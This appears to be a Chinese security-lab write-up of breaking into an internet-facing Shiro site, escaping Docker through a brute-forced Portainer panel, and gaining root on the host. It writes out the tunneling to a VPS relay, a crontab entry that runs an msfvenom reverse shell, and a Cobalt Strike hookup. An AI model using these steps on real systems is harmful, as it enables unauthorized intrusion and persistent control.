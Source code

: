 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/fFwDGcixARBJmIrO5qxTkA)

![](https://mmbiz.qpic.cn/mmbiz_png/0fwWib0uAxkLXkkeCw3wrNGUOUicDRle5OQftoX4ib03wNZAXNtAMaLicJ7rNQQV5R5ZvJ97cBS9OY8vEhlEwhyqPg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

Shiro漏洞利用

![](https://mmbiz.qpic.cn/mmbiz_png/3n7VQRz6w55cupvOM5odibMKicQP1zYeBKTWiadBWTEN0Tx4WWF8Mbp4x7e9BydyiacWPDFWibibafwz4RyCclFje8YA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

该网站页面存在Remember me，大概率是shiro  

-------------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icGLdtG7uwH9T2iaSd6foYTz43T0AQLz0DGBdghobIJibhKWRHv5FpxKHF3BOaMaMxk9xLyjVmicKB0A/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

由于这个环境并不稳定，请求多了就卡住（自带防御属性啊～）

https://github.com/tangxiaofeng7/Shiroexploit

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icGLdtG7uwH9T2iaSd6foYTzvgsEQ8dPPPovg62524FuqaqibNxgLhpOHkTRxniaEkObQfqOH9yre1wA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1) 

判断可以出网后把shell反弹到vps上：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icGLdtG7uwH9T2iaSd6foYTzmxILKibt0ZjKrRpRp5yFUx3icrSuSZhJAWgBeMVpT7ibdnibSgcsTGLibiaw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

---

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

Docker检测与逃逸

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

---

然后查看一些信息的时候发现命令找不到：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

执行命令验证是否为docker环境：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

确实为docker环境，那么就看看宿主机有没有什么漏洞可以利用，使用 cat /etc/hosts,看到了主机IP为 192.168.16.2：  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

到这里本来想代理流量本地开工具扫扫的，想想还是试试其他的方法来玩玩，那么这里先循环ping一下C段检测存活IP，在这里找到了一个脚本(https://blog.csdn.net/qq\_38228830/article/details/81356984)，把工具下载到docker里：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

探测IP:

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现个192.168.16.1，那这个肯定是宿主机了，接下来，探测下宿主机的端口啊~~，这里嘛就用curl来探测端口：

```
`curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/null``curl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

命令执行完了查看文件发现两个端口开着服务，一个是SSH：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

一个是9000端口的Portainer面板：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

那么思路来了，要么爆破进行SSH，要么爆破进Portainer，接下来可以上代理了，继续用wget下载到docker里：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

Docker上执行:

```
chmod +x ligolo_linux_amd64 && ligolo_linux_amd64 -autorestart -relayserver 122.*.*.*:88
```

VPS上执行:

```
localrelay_windows_amd64.exe -localserver 0.0.0.0:103 -relayserver=0.0.0.0:88
```

 88端口用于docker和vps通信，103端口用于开放socks代理。接下来用Proxifier设置代理了，先看看Portainer能不能访问：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

链接SSH:

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

开始爆破！！！

成功爆破后，这里就登录Portainer进行Docker逃逸了：

_注：Portainer__是一个可视化的容器镜像的图形管理工具，利用Portainer__可以轻松构建，管理和维护Docker__环境。_ _而且完全免费，基于容器化的安装方式，方便高效部署。Portainer__通过Docker.sock__与宿主机进行通信，这是它的正常功能：_

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在freebuf看到是这么介绍的：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

接下来开始逃逸，但是这里，我们进行链接的时候发现：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

啊这，那就只能使用这个方法了：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

好了，真的开始了逃逸了，先创建个容器：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里给他选择个特权模式：  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

1.然后链接这个容器的shell：fdisk -l

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2.此时查看/dev/路径会发现很多设备文件：ls /dev

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

3.新建目录以备挂载：mkdir /abcd

4.将/dev/sda1挂载至 /abcd: mount /dev/sda1 /abcd

5.最终我们可以通过访问容器内部的/abcd路径来达到访问整个宿主机的目的：ls /abcd:

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

6.接下来可以直接操作宿主的文件了！！！

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

7.直接写计划任务拿shell

先使用msfvenom生成一个python反弹shell的命令：

‍‍‍‍‍‍

```
msfvenom -p python/shell_reverse_tcp LHOST=ip LPORT=520 -f raw(这里生成的是基于py2的)
```

然后在docker里执行：  

```
echo  "* *     * * *   root   python –c \" [msfvenom生成的代码]\"" >> /abcd/etc/crontab
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==) 

可以看到反弹了shell回来，那么是不是这个宿主机Ubuntu呢？那肯定是，随便执行点命令看看：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

好了，已经逃逸到Ubuntu了，接下来让它上线到CobaltStrike，使用CrossC2插件（https://github.com/gloxec/CrossC2）：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

上线了：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

总结

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

       本文记录一次通过公网拿到docker容器权限，通过扫描发现宿主机地址，并对宿主机进行攻击，最后利用**_Portainer进行docker逃逸获得宿主机Ubuntu权限。_**  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**推荐阅读：**  

[**Docker渗透思路调研**](http://mp.weixin.qq.com/s?__biz=Mzg3NzE5OTA5NQ==&mid=2247484073&idx=1&sn=24f4e481dea7bfe873db4c3db4d20b5a&chksm=cf27e931f85060278f1efe7d155900709b5061f2d5cfc228f1ab945ea412f383a6bdbd17993b&scene=21#wechat_redirect)

  

[![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247490909&idx=1&sn=efdbd98bd302159324cb431f3d735165&chksm=ec1f4862db68c174c21d98f46847bba21a19602c4823ec17fb7363662751c385817e85d9c6ce&scene=21#wechat_redirect)

  

**点赞，转发，在看**

来源：雷石安全实验室

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
